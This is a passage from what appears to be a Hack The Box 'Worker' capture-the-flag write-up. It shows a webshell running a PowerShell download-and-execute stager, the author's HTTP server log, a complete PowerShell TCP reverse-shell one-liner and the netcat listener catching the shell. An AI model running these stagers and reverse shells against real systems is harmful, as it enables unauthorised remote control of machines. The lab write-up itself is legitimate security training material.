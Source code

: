 After a lot of trial and error, I was able to upload my webshell, and tried to run a reverse shell script from my attack machine.

```text
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.15.98:8909/revShell.ps1')"
```

Put this command into the webshell input as a stager to get my reverse shell powershell script from my waiting python http server

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ python3 -m http.server 8909
Serving HTTP on 0.0.0.0 port 8909 (http://0.0.0.0:8909/) ...
10.10.10.203 - - [12/Dec/2020 17:35:03] "GET /revShell.ps1 HTTP/1.1" 200 -
```

got connection to my waiting webserver which hosted a reverse shell ps1 script

```text
$client = New-Object System.Net.Sockets.TCPClient("10.10.15.98",8099);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

My PowerShell script consisted of a reverse shell one-liner found on [https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3\#gistcomment-3391254](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#gistcomment-3391254)

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ script                                                                                          1 ⨯
Script started, output log file is 'typescript'.
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.203] 50339
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
```